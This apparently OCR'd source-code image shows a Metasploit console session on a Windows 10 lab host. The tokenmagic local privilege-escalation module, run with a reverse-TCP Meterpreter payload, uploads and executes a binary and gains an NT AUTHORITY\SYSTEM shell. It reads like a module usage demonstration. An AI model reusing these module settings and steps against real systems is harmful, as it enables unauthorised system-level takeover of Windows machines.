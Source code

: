 ```
   METHOD            SERVICE          yes       SERVICE or DLL, please select which attack method you would like to use (SERVICE by default).
   SERVICE_FILENAME  kaOOacm          no        Filename for Service Payload (%RAND% by default).
   SERVICE_NAME      eNlQhw           no        Service Name to use (%RAND% by default).
   SESSION           1                yes       The session to run this module on.
   WRITABLE_DIR                       no        Location of file to overwrite (%TEMP% by default).


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.16.199.1     yes       The listen address (an interface may be specified)
   LPORT     4443             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(windows/local/tokenmagic) > run

[*] Started reverse TCP handler on 172.16.199.1:4443 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Attempting to PrivEsc on DESKTOP-D6CQCM7 via session ID: 1
[*] Uploading payload to C:\Users\msfuser\AppData\Local\Temp\kaOOacm.exe
[*] Running Exploit on DESKTOP-D6CQCM7
[*] Sending stage (200262 bytes) to 172.16.199.133
[+] Deleted C:\Users\msfuser\AppData\Local\Temp\kaOOacm.exe
[*] Meterpreter session 2 opened (172.16.199.1:4443 -> 172.16.199.133:49995) at 2021-05-07 15:05:28 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-D6CQCM7
OS              : Windows 10 (10.0 Build 15063).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x64/windows
meterpreter > 
```